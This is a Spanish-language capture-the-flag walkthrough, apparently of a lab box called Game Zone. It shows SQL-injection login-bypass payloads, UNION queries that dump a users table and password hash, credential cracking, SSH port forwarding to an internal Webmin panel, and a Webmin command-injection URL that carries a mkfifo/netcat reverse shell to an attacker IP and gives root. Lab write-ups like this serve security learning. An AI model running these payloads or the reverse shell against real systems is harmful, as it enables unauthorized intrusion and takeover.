








## Servicio Web 80

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Servicio web 80



Bypaseando el login fzzenado el parámetro user

```
❯ wfuzz -w /usr/share/wordlists/SecLists/Fuzzing/Databases/sqli.auth.bypass.txt -u "http://10.10.149.111/index.php" -X POST -d "username=FUZZ&password=pass&x=17&y=13" -c -t 50 --hh 4517
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.149.111/index.php
Total requests: 96

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000000006:   302        110 L    319 W      4502 Ch     "' or 1=1#"                                                           
000000036:   302        110 L    319 W      4502 Ch     "admin' or '1'='1'#"                                                  
000000040:   302        110 L    319 W      4502 Ch     "admin' or 1=1#"                                                      
000000052:   302        110 L    319 W      4502 Ch     "admin'or 1=1 or ''='"                                                
000000080:   302        110 L    319 W      4502 Ch     "root' or '1'='1'#"                                                   
000000084:   302        110 L    319 W      4502 Ch     "root' or 1=1#"                                                       
000000096:   302        110 L    319 W      4502 Ch     "root'or 1=1 or ''='"
```


----

#### SQL error based



base de datos y usuario

```
' union select 1,database(),user()-- -
```



Tablas

```
' union select 1,table_name,3 FROM information_schema.tables WHERE table_schema="db"-- -
```


Columnas

```
' union select 1,column_name,3 from information_schema.columns where table_name="users" and table_schema="db"-- -
```




Registro

```
' union select 1,username,pwd from db.users limit 0,1-- -
```



Información extraida:

Base de datos: `db`  
Version: `5.7.27-0ubuntu0.16.04.1`  
Cantidad de tablas: `2`  
Tablas: `post,users`  
Cantidad de columnas: `2`  
Columns de users: `username,pwd`  
Usuario: `agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124`

Identificando hash

```
❯ hashid ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14    
Analyzing 'ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14' 
[+] Snefru-256                                                     
[+] SHA-256                                                                  
[+] RIPEMD-256                                                               
[+] Haval-256                                                                
[+] GOST R 34.11-94                                                          
[+] GOST CryptoPro S-Box                                                     
[+] SHA3-256                                                       
[+] Skein-256                                                                
[+] Skein-512(256)                                                 
```

Cracking



### Shell como usuario agent47

```
> ssh agent47@10.10.159.111
```

---

## Escalada de privilegios

Puertos internos abiertos

```
agent47@gamezone:/tmp$ ss -tupln
Netid State      Recv-Q Send-Q                    Local Address:Port                                   Peer Address:Port   
udp   UNCONN     0      0                                     *:10000                                             *:*      
udp   UNCONN     0      0                                     *:68                                                *:*      
tcp   LISTEN     0      80                            127.0.0.1:3306                                              *:*      
tcp   LISTEN     0      128                                   *:10000                                             *:*      
tcp   LISTEN     0      128                                   *:22                                                *:*      
tcp   LISTEN     0      128                      fe80::1%lxdbr0:13128                                            :::*      
tcp   LISTEN     0      128                                  :::80                                               :::*      
tcp   LISTEN     0      128                                  :::22                                               :::*      
```

Remote portForwarding

```
agent47@gamezone:~$ ssh -R 10000:127.0.0.1:10000 noroot@10.9.102.237 -N -f
```

Visitando el puerto 10000 desde el navegaor



Enumerando la web

```
❯ whatweb http://127.0.0.1:10000
http://127.0.0.1:10000 [200 OK] Cookies[testing], Country[RESERVED][ZZ], HTTPServer[MiniServ/1.580], IP[127.0.0.1], Script[text/javascript], Title[Login to Webmin]
```

Panel de administración usando las crendenciales del usuario `agent47:videogamer124`



Exploit:

```
❯ searchsploit -x unix/remote/21851.rb
```

Obteniendo shell

```
http://localhost:10000/file/show.cgi/bin/qwqw2e3e5|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.102.237 4444 >/tmp/f
```

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.149.111] 53438
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# hostname -I 
10.10.149.111 
```


